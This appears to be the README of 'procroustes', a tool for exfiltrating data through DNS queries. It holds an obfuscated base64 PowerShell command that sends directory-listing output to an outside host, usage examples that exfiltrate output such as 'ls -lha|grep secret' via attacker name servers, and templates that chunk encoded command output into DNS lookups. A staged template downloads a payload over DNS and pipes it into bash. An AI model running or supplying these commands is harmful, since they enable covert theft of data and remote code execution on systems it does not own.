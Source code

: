 powershell:
```bash
powershell -enc UgBlAHMAbwBsAHYAZQAtAEQAbgBzAE4AYQBtAGUAIAAkACgAIgB7ADAAfQAuAHsAMQB9AC4AewAyAH0AIgAgAC0AZgAgACgAWwBDAG8AbgB2AGUAcgB0AF0AOgA6AFQAbwBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAoAGwAcwApACkAKQAuAGwAZQBuAGcAdABoACkALAAiAGwAZQBuACIALAAiADEANgAwADMAMAAzADAANAA4ADgALgB3AGgAYQB0AGUAdgAuAGUAcgAiACkACgA=
```

## Usage
1. Local testing for bash:
```bash
./procroustes_chunked.sh -h whatev.er -d "dig @0 +tries=5" -x dispatcher_examples/local_bash.sh -- 'ls -lha|grep secret' < <(stdbuf -oL tcpdump --immediate -l -i any udp port 53)
```

2. Local testing for powershell with WSL2:
```bash
stdbuf -oL tcpdump --immediate -l -i any udp port 53|./procroustes_chunked.sh -w ps -h whatev.er -d "Resolve-DnsName -Server wsl2_IP -Name" -x dispatcher_examples/local_powershell_wsl2.sh -- 'gci | % {$_.Name}'
```

3. powershell example where we ssh into our NS to get the incoming DNS requests.
```bash
./procroustes_chunked.sh -w ps -h yourdns.host -d "Resolve-DnsName" -x dispatcher_examples/curl_waf.sh -- 'gci | % {$_.Name}' < <(stdbuf -oL ssh user@HOST 'sudo tcpdump --immediate -l udp port 53')
```

4. More information on the options
```bash
./procroustes_chunked.sh --help
```

### procroustes_chunked vs procroustes_full

In a nutshell, assuming we want to exfiltrate some data that has to be broken into four chunks in order to be able to be transmitted over DNS:
* procroustes_chunked: calls the dispatcher four times, each time requesting a different chunk from the server. It has relatively small payload size, it's fast and doesn't need any special configuration.
* procroustes_full: calls the dispatcher once, the command that will get executed on the server will be responsible for chunking the data and sending them over. It can have bigger payload size, it's fast (speed can be tuned through the -t parameter) and its speed is further improved when the dns_server is running on the name server.
* procroustes_full/staged: same as procroustes_full, but uses a stager to get the command used by procroustes_full to chunk the data. It has the smallest "payload" size but is also slowest with regards to exfiltration rate since the actual payload is downloaded over DNS. Finally it requires the configuration of the nsconfig script. Note: the nsconfig script normally has to be configured only once per name server (and not per target server).

Some of their differences can also be illustrated through the template commands used for bash:

procroustes_chunked/bash:
```bash
%DNS_TRIGGER% `(%CMD%)|base64 -w0|cut -b$((%INDEX%+1))-$((%INDEX%+%COUNT%))'`.%UNIQUE_DNS_HOST%
```
procroustes_full/bash:
```bash
(%CMD%)|base64 -w0|echo $(cat)--|grep -Eo '.{1,%LABEL_SIZE%}'|xargs -n%NLABELS% echo|tr ' ' .|awk '{printf "%s.%s%s\n",$1,NR,"%UNIQUE_DNS_HOST%"}'|xargs -P%THREADS% -n1 %DNS_TRIGGER%
```
procroustes_full/bash/staged:
```bash
(seq %ITERATIONS%|%S_DNS_TRIGGGER% $(cat).%UNIQUE_DNS_HOST%|tr . \ |printf %02x $(cat)|xxd -r -p)|bash
```

